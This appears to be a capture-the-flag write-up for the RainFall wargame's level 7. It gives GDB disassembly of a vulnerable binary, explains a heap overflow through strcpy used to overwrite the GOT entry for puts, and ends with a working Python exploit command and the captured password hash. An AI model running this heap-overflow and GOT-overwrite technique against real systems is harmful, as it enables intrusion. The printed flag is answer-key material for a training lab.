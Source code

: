 # Level7

## Exploring the binary
```shell
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 phantom
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 phantom society
~~
```
Upon analyzing the binary, we uncover that it requires us to input two argument values for proper execution.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
```
The main function invokes <code>strcpy()</code>, <code>malloc()</code>, <code>fopen()</code>, <code>fgets()</code> and <code>puts()</code> during execution. Upon closer inspection, it seems that a password file is opened and its contents stored in a variable, which is never displayed. As no other functions are called, we list all functions to identify any unused ones.
```shell
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```
We opt to examine the sole function, <code>m()</code>:
```shell
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```
We observe that this function prints the contents of a variable stored at <code>0x8049960</code>, a value altered by the <code>main()</code> function through the use of <code>fgets()</code>. This specific variable contains our desired password.

## buffer overflow
We've observed that <code>main()</code> once again employs <code>strcpy()</code>, suggesting another potential <code>buffer overflow</code> vulnerability. In this level, two strings serve as input, enabling us to leverage a <code>GOT overwrite</code> to modify the address designated as the destination for the second copied string. To achieve this, we'll overwrite the address of a function called within <code>main()</code>, redirecting it to the function responsible for printing the contents of <code>c</code>. Since the execution of <code>puts()</code> isn't necessary, we opt to replace its address (<code>0x08049928</code>) with that of <code>m()</code> (<code>0x080484f4</code>). The only thing left is to find the offset of the first <code>strcpy()</code>, which is equal to 20.

## Exploit
``` shell
level7@RainFall:~$ ./level7 $(python -c 'print "F" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1718728678
```
